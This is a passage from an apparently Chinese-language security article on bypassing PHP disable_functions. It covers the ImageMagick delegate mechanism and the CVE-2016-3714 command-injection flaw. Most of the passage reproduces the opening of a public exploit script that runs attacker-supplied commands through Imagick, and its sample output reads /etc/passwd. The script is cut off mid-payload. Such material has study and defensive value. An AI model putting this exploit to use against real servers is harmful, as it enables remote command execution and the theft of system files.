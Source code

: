 ```php
echo file_get_contents("/tmp/cmd_result");
?>
```


## 0x07 ImageMagick

ImageMagick 是一个功能强大的开源图形处理软件,可以用来读、写和处理超过90种的图片文件,包括流行的 JPEG、GIF、 PNG、PDF 以及 PhotoCD 等格式。使用它可以对图片进行切割、旋转、组合等多种特效的处理。

ImageMagick 之所以支持那么多的文件格式,是因为他内置了非常多的图像处理库,对于这些图像处理库,ImageMagick 给他起了个名字叫做 `Delegate` (委托),每个 Delegate 对应一种格式的文件,然后通过系统的 system() 命令来调用外部的程序对文件进行处理。

### Command Injection

**[CVE-2016-3714](https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html) ImageMagick 命令执行:**

影响版本：

- ImageMagick 6.5.7-8 2012-08-17
- ImageMagick 6.7.7-10 2014-03-06
- 低版本至6.9.3-9 released 2016-04-30

漏洞简述： 

产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

[exp](https://www.exploit-db.com/exploits/39766):

```php
# Exploit Title: PHP Imagick disable_functions Bypass
# Date: 2016-05-04
# Exploit Author: RicterZ (ricter@chaitin.com)
# Vendor Homepage: https://pecl.php.net/package/imagick
# Version: Imagick  <= 3.3.0 PHP >= 5.4
# Test on: Ubuntu 12.04

# Exploit:

<?php
# PHP Imagick disable_functions Bypass
# Author: Ricter <ricter@chaitin.com>
#
# $ curl "127.0.0.1:8080/exploit.php?cmd=cat%20/etc/passwd"
# <pre>
# Disable functions: exec,passthru,shell_exec,system,popen
# Run command: cat /etc/passwd
# ====================
# root:x:0:0:root:/root:/usr/local/bin/fish
# daemon:x:1:1:daemon:/usr/sbin:/bin/sh
# bin:x:2:2:bin:/bin:/bin/sh
# sys:x:3:3:sys:/dev:/bin/sh
# sync:x:4:65534:sync:/bin:/bin/sync
# games:x:5:60:games:/usr/games:/bin/sh
# ...
# </pre>
echo "Disable functions: " . ini_get("disable_functions") . "\n";
$command = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';
echo "Run command: $command\n====================\n";

$data_file = tempnam('/tmp', 'img');
$imagick_file = tempnam('/tmp', 'img');

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
```